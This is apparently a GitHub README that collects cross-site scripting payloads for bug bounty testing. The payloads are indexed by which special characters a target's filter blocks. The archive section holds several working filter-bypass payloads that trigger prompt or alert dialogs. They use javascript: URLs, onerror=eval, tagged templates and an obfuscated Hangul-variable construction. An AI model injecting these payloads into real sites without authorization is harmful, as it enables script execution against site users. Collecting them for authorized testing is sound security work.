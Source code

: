 # XSS-Payload-without-Anything
XSS Payload without Anything.

## What is XSS Payload without Anything
When I work for a company or bug bounty, the unexpected hurdle is a protection(xss filter) of special char in the JS(Javascript) area. So I am devising a way to easily solve these problems, and one of the processes is this document.



Let's collect a lot of thoughts and solve our problems.

## Concept
It is similar to "Payload all the things" in terms of collecting the payload, but I want to provide a list of payloads with special tag (without char, used char, other..)
I plan to make it easy to search and to show what characters (or what they are made of) are unusable.

### format

without char: `()` `,` `'` 
```
XSS Payload

// usedchar: 
// author: 
// description: 
```

### without char (Frequently filtered characters)
I have selected special characters that are often blocked.
```
( ) 
{ } 
, 
"
'
`
[ ]
\ 
/ 
; 
+ 
. 
=
```
(template): `()` `{}` `,` `"` `'` `backtick``[]` `\` `/` `;` `+` `.` `=`

### Usage
on Github.com
1) Ctrl + F > 
2) find your problem char 
3) XSS

on hahwul.com
comming soon

## Awesome payload
coming soon

## Archive
### without char: `()` `,` `"` `backtick` `\` `/` `[]` `{}` `.`
```
location='JaVaScRiPt:prompt'+document.location.hash[1]+'45'+document.location.hash[2]
```

### without char: `()` `{}` `,` `"` `backtick` `[]` `/` `+` `.` 
```
onerror=eval;throw'alert\x2845\x29';
```


### without char: `!backtick`
```
prompt`45`
```
### without char: `()` `{}` `,` `"` `backtick``[]` `/` `;` `+` `.`
```
location='javaScriPt:alert\x2845\x29'
```

### without char: `"` `backtick` `\` `/` `;` `.`
```
([,하,,,,훌]=[]+{},[한,글,페,이,,로,드,ㅋ,,,ㅎ]=[!!하]+!하+하.ㅁ)[훌+=하+ㅎ+ㅋ+한+글+페+훌+한+하+글][훌](로+드+이+글+한+'(45)')()
```

## Submit XSS Payloads
Add issue form or pull Request
```
XSS Payload:
WithOut: 
Description: 
```
or ...

Tweet with me [@hahwul](https://twitter.com/hahwul)
